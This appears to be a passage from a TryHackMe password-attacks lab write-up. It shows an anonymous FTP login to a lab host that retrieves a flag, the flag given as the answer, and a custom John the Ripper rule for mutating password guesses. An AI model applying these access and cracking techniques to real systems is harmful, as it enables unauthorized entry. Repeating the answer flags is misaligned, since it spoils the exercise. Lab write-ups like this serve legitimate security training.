 ```

```


```
┌──(kali㉿kali)-[/tmp]
└─$ ftp 10.10.163.182
Connected to 10.10.163.182.
220 (vsFTPd 3.0.3)
Name (10.10.163.182:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||39653|)
c150 Here comes the directory listing.
drwxr-xr-x    2 111      116          4096 Oct 12  2021 files
226 Directory send OK.
ftp> cd files
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||63306|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 Oct 12  2021 flag.txt
226 Directory send OK.
ftp> more flag.txt
THM{d0abe799f25738ad739c20301aed357b}

```

Can you guess the FTP credentials without brute-forcing? What is the flag?
*THM{d0abe799f25738ad739c20301aed357b}*

```
┌──(kali㉿kali)-[~]
└─$ tail -f /etc/john/john.conf

# include john-local.conf in local dir, it can override john.conf, john-local.conf (or any other conf file loaded)
# This is disabled by default since it's a security risk in case JtR is ever run with untrusted current directory
#.include './john-local.conf'

# End of john.conf file.
# Keep this comment, and blank line above it, to make sure a john-local.conf
# that does not end with \n is properly loaded.
[List.Rules:THM-Password-Attacks]
Az"[0-9][0-9]" ^[!@]


```
